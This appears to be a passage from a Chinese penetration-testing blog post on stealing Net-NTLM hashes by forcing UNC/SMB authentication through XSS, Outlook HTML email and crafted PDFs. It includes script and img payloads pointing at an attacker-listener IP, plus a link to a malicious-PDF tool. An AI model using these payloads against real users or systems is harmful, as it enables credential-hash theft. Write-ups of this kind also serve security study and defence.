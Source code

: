 利用XSS加载访问UNC路径

```xml
<script src="\\192.168.30.128\xss">
```

这种情况适用于IE和edge，其他浏览器不允许从http域跨到file域

![20hash](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/pac/20hash.png)

当用户访问该存在xss的页面，将会UNC加载该路径，听到hash

接下来模拟使用http的情况

```xml
<script src="//192.168.30.128\xss">
```

这种情况会弹出认证框，导致我们监听失败

![box](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/pac/box.png)

这是因为http协议导致的，smb协议会默认使用用户名和密码去自动登录，http协议则需要自行设置

![xss](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/pac/xss.png)

选择使用当前用户名和密码自行登录后，再次访问该页面，就能监听到hash

![listenhash](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/pac/listenhash.png)

在默认配置下，构造unc访问smb协议，仅适用与ie和edge浏览器，http协议适用于所有浏览器，但是需要修改安全策略

但是在使用http协议时，如果访问站点的域名位于内网或者是信任列表时会直接登录

![priv](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/pac/priv.png)

如果认证用户有创建所有子对象这一条权限，当我们获取到一个域内认证用户时，就可以添加一条DNS记录为域名，从而获取hash

(实际测试中这一条权限不是默认开启的)

## outlook

发送邮件是支持html的，而且outlook里面的图片加载路径又可以是UNC。于是我们构造payload

```xml
<img src="\\192.168.30.128\outlook">
```

## PDF

使用脚本将普通的pdf转化为恶意pdf文件

[worse-pdf](https://github.com/3gstudent/Worse-PDF)

用户使用PDF阅读器打开，如果使用IE或是Chrome打开PDF文件，并不会执行.

详细可以看3gstudent的博客

[pdf获取net-nelm hash](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8PDF%E6%96%87%E4%BB%B6%E8%8E%B7%E5%8F%96Net-NTLM-hash)

